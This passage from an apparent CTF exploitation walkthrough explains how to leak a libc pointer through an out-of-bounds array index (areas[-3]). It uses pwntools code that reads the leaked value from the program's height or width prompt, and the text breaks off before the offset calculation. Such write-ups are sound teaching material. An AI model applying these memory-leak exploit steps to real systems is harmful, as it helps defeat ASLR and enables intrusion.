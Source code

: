 
#### Step 2: Understanding Which Field to Leak

The working solution uses the **HEIGHT** field. Here's why:

**The exploit code:**
```python
r.sendlineafter(b'): ', b'1')  # Answer for x
r.sendlineafter(b'): ', b'1')  # Answer for y
r.sendlineafter(b'): ', b'1')  # Answer for width ← Send this!
data = r.recvuntil(b'): ')     # ← Captures next prompt (height)
```

**What happens:**
```
1. Program asks: "Enter new x (current: 123): "
   We send: 1

2. Program asks: "Enter new y (current: 456): "
   We send: 1

3. Program asks: "Enter new width (current: 789): "
   We send: 1

4. Program asks: "Enter new height (current: 140737351847584): "
                                               ↑ THIS IS THE LEAK!
   We capture this line before answering
```

**Critical detail:** After we send the width value, we IMMEDIATELY call `recvuntil(b'): ')`. This captures the HEIGHT prompt, which displays the current value stored in `areas[-3].height` - a libc pointer!

---

#### Common Confusion #1: Width vs Height

**Q: Why does the script leak height and not width?**

**A:** Both work! The choice is arbitrary. The key is:
1. If leaking WIDTH: recv BEFORE sending width
2. If leaking HEIGHT: recv AFTER sending width (before sending height)

**Example leaking WIDTH instead:**
```python
r.sendlineafter(b'): ', b'1')  # x
r.sendlineafter(b'): ', b'1')  # y
data = r.recvuntil(b'): ')     # ← Captures width prompt
leaked = int(data.split(b'current: ')[-1].split(b')')[0])
r.sendline(b'1')               # Answer width
# Continue...
```

---

#### Step 3: Calculating the Offset
